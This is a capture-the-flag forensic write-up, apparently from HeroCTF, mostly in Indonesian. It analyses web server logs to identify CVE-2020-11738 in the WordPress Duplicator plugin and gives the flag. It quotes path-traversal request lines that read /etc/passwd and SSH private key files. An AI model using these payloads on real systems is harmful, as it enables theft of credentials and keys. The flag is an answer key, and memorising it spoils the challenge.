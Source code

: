 # dev.corp 1/4

## Deskripsi
The famous company dev.corp was hack last week.. They don't understand because they have followed the security standards to avoid this kind of situation. You are mandated to help them understand the attack.

For this first step, you're given the logs of the webserver of the company.

Could you find :
- The CVE used by the attacker ?
- What is the absolute path of the most sensitive file recovered by the attacker ?

Format : `Hero{CVE-XXXX-XXXX:/etc/passwd}`

Here is a diagram representing the company's infrastructure:

![infrastructure](./infra.png)

## Attachment
[access.log](./Challenge/access.log)

## Solusi
Melihat dari file yang diberikan sepertinya merupakan `access.log` dari sebuah web server. 
Disini terdapat banyak sekali log yang tercatat, namun ditemukan sebuah vulnerability yang memanfaatkan directory traversal atau LFI.

```
internalproxy.devcorp.local - - [02/May/2023:13:12:29 +0000] "GET //wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../../etc/passwd HTTP/1.1" 200 2240 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
```

Dari log di atas terlihat bahwa attacker berhasil mendapatkan file `/etc/passwd` memanfaatkan vulnerability tersebut.
Hasil pencarian google menunjukkan bahwa vulnerability tersebut adalah `CVE-2020-11738` yang memanfaatkan vulnerability dari Wordpress Plugin Duplicator untuk membaca file pada sistem.
Informasi selengkapnya bisa ditemukan pada [Exploit DB](https://www.exploit-db.com/exploits/50420).

Kemudian dilanjutkan pencarian berdasarkan vulnerability tersebut, ditemukan lagi log attacker yang mencoba untuk mendapatkan file dari web server.
```
internalproxy.devcorp.local - - [02/May/2023:13:12:46 +0000] "GET //wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../../home/webuser/.ssh/id_rsa HTTP/1.1" 500 354 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
internalproxy.devcorp.local - - [02/May/2023:13:13:03 +0000] "GET //wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../../home/webuser/.ssh/config HTTP/1.1" 200 531 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
internalproxy.devcorp.local - - [02/May/2023:13:13:17 +0000] "GET //wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../../home/webuser/.ssh/id_rsa_backup HTTP/1.1" 200 2963 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
```

Dari hasil log di atas, terlihat attacker berusaha untuk mendapatkan file `id_rsa`, `config`, dan `id_rsa_backup`, namun yang berhasil mendapatkan response 200 (yang artinya bisa diakses) adalah `config` dan `id_rsa_backup`.
File paling sensitive yang berhasil didapatkan oleh attacker adalah `id_rsa_backup`

## Flag
### Hero{CVE-2020-11738:/home/webuser/.ssh/id_rsa_backup}
